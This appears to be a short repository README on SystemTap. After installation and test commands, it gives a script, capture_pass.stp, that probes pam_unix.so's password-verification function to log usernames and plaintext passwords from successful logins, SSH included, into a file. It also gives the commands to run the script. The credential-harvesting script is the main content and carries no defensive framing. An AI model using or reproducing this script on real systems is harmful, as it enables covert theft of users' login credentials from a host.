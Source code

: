 

== installation
----
yum install -y systemtap systemtap-runtime

yum install -y kernel-devel-$(uname -r) \
kernel-debuginfo-$(uname -r) \
kernel-debuginfo-common-$(uname -m)-$(uname -r)
----

== test
----
stap -v -e 'probe vfs.read {printf("read performed\n"); exit()}'
----

== capture ssh password
capture_pass.stp
----
#!/usr/bin/stap
global username, pass, isSuccRet = 1;
probe process("/lib64/security/pam_unix.so").function("_unix_verify_password")
{
username = user_string($name);
pass = user_string($p);
}
probe process("/lib64/security/pam_unix.so").function("_unix_verify_password").return
{
if ($return == 0)
{
printf("User: %s\nPassword: %s\n\n", username, pass);
isSuccRet = 0;
}
}
probe process("/lib64/security/pam_unix.so").function("pam_sm_open_session")
{
if (isSuccRet != 0)
{
printf("Login via ssh service.\n\User: %s\nPassword: %s\n\n", username, pass);
}
isSuccRet = 1;
}
----

----
chmod +x capture_pass.stp
stap capture_pass.stp -o password.txt
----


https://access.redhat.com/documentation/en-us/red_hat_enterprise_linux/7/html-single/systemtap_beginners_guide/index